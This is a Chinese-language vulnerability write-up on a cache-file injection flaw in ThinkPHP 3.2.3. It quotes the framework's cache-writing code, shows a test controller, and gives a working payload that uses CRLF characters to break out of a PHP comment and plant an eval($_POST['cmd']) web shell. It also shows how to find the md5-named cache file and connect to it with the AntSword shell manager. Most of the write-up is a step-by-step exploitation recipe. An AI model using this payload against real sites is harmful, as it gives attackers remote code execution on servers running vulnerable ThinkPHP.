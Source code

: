Thinkphp 3.2.3 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 3.2.3

三、复现过程
------------

### 漏洞分析

-   直接跟进到`/Library/Think/Cache/File.class.php`文件，看到set方法：

```{=html}
<!-- -->
```
-   /**
             * 写入缓存
             * @access public
             * @param string $name 缓存变量名
             * @param mixed $value  存储数据
             * @param int $expire  有效时间 0为永久
             * @return boolean
             */
            public function set($name,$value,$expire=null) {
                N('cache_write',1);
                if(is_null($expire)) {
                    $expire =  $this->options['expire'];
                }
                $filename   =   $this->filename($name);
                $data   =   serialize($value);
                if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
                    //数据压缩
                    $data   =   gzcompress($data,3);
                }
                if(C('DATA_CACHE_CHECK')) {//开启数据校验
                    $check  =  md5($data);
                }else {
                    $check  =  '';
                }
                $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
                //data参数经过序列化，直接被写到文件内。

                $result  =   file_put_contents($filename,$data);
                if($result) {
                    if($this->options['length']>0) {
                        // 记录缓存队列
                        $this->queue($name);
                    }
                    clearstatcache();
                    return true;
                }else {
                    return false;
                }
            }

```{=html}
<!-- -->
```
-   写一个调用缓存函数的的方法，运行一下。看看写进去什么

```{=html}
<!-- -->
```
-   <?php
        namespace Home\Controller;
        use Think\Controller;
        class IndexController extends Controller {

            public function index(){
                $a=I('post.a3');
                S('name',$a);
            }
        }

```{=html}
<!-- -->
```
-   在set方法下断点，访问
    `http://www.0-sec.org/index.php/Home/Index/index.html`
    ，post数据：`a3=aaaa`

![](./.resource/Thinkphp3.2.3缓存漏洞/media/rId25.png)

可以看到\$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在`Application/Runtime/Temp/`文件夹下生成了php文件。

![](./.resource/Thinkphp3.2.3缓存漏洞/media/rId26.png)

-   写入到文件被行注释了。

-   `$data`参数未过滤`%0d%0a`可以用换行来绕过行注释，尝试post数据：

```{=html}
<!-- -->
```
-   `a3=%0d%0aeval($_POST['cmd']);%0d%0a//`

![](./.resource/Thinkphp3.2.3缓存漏洞/media/rId27.png)

-   之后用蚁剑连接成功

![](./.resource/Thinkphp3.2.3缓存漏洞/media/rId28.png)

### 总结

### Thinkphp3.2.3

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297

-   `http://www.0-sec.org/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php`

3.  之后蚁剑连接。

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
